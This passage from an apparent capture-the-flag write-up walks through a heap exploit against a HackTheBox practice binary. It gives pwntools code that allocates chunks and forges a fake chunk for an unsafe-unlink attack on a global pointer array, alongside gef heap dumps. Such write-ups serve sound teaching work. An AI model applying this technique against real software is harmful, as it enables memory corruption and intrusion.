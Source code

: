 
So, next up, we will allocate chunks, five chunks would be good, of same size:-

```py
log.info("Created 5 chunks of size: 0x88")
allocate(0x88, "A"*0x88)
allocate(0x88, "B"*0x88)
allocate(0x88, "C"*0x88)
allocate(0x88, "D"*0x88)
allocate(0x88, "E"*0x88)
```

Now, we will run the exploit and see the chunks in gdb:-

```r
0 [08:11:04] vagrant@oracle(oracle) HackTheBox> python3 chapter1.py 
[+] Starting program './chapter1': PID 2417
[*] Analyzing /media/sf_Pwning/HackTheBox/chapter1
[*] Analyzing /home/vagrant/tools/LibcSearcher/libc-database/db/libc6_2.23-0ubuntu10_amd64.so
[*] Created 5 chunks of size: 0x88

[..snip..]

gef➤  heap chunks
Chunk(addr=0x1945010, size=0x90, flags=PREV_INUSE)
    [0x0000000001945010     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]
Chunk(addr=0x19450a0, size=0x90, flags=PREV_INUSE)
    [0x00000000019450a0     42 42 42 42 42 42 42 42 42 42 42 42 42 42 42 42    BBBBBBBBBBBBBBBB]
Chunk(addr=0x1945130, size=0x90, flags=PREV_INUSE)
    [0x0000000001945130     43 43 43 43 43 43 43 43 43 43 43 43 43 43 43 43    CCCCCCCCCCCCCCCC]
Chunk(addr=0x19451c0, size=0x90, flags=PREV_INUSE)
    [0x00000000019451c0     44 44 44 44 44 44 44 44 44 44 44 44 44 44 44 44    DDDDDDDDDDDDDDDD]
Chunk(addr=0x1945250, size=0x90, flags=PREV_INUSE)
    [0x0000000001945250     45 45 45 45 45 45 45 45 45 45 45 45 45 45 45 45    EEEEEEEEEEEEEEEE]
Chunk(addr=0x19452e0, size=0x20d30, flags=PREV_INUSE)  ←  top chunk

gef➤  x/10xg 0x6020c0
0x6020c0:	0x0000000001945010	0x00000000019450a0
0x6020d0:	0x0000000001945130	0x00000000019451c0
0x6020e0:	0x0000000001945250	0x0000000000000000

```

Here, we have 5 chunks on the heap with the size `0x90` and then we have a global array having the pointers of the allocated chunk. Our target is to get control of the `0x6020c0` global array, so that we can manipulate the pointers stored within to it to get r/w primitive.

The plan here is to forge a fake chunk, such that we can point the `fd` and `bk` to the global array, this will be done with:-

```py
log.info("Preparing a fake chunk...")
payload = p64(0x0)*2
payload += p64(global_ptr - 0x18)
payload += p64(global_ptr - 0x10)
payload = payload.ljust(0x80, b"X")
payload += p64(0x80)
payload += b"\x90"
log.info("Fake chunk:\n%s" %(hexdump(payload)))
```
